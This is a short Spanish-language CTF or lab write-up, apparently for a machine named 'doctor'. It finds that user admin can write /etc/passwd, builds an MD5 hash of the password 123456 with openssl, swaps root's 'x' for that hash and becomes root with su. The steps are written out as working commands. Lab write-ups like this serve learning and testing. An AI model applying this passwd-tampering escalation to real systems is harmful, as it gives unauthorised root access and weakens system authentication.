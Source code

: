 ### Enumeration

#### Writable Files

```
admin@doctor:~$ find / -writable -type f 2>/dev/null |grep -viE "var|proc|sys|home"
```

![[Pasted image 20250705000505.png]]

```
admin@doctor:~$ ls -l /etc/passwd
```

![[Pasted image 20250705000531.png]]

El **usuario** **`admin`** dispone de **permisos de escritura** sobre el archivo **`/etc/passwd`**.
Mediante el **password** **`123456`** creo un **hash** con [openssl](https://linux.die.net/man/1/openssl)

```
admin@doctor:~$ openssl passwd -1 123456
```

![[Pasted image 20250705000702.png]]

```
$1$MPtnHmQZ$ndcxxjXBm23HwPkCRA8IU.
```

En la línea del **usuario** **`root`**, elimino la **`x`** y pego el **hash** previamente creado para que la validación del **password** se realice desde el archivo **`/etc/passwd`** en lugar del archivo **`/etc/shadow`**

```
admin@doctor:~$ cat /etc/passwd | grep root
```

![[Pasted image 20250705000907.png]]

```
admin@doctor:~$ nano /etc/passwd
admin@doctor:~$ grep root /etc/passwd
```

![[Pasted image 20250705001348.png]]

Me convierto en **usuario** **`root`**

```
su root
//Contraseña: 123456
id 
```

![[Pasted image 20250705001435.png]]
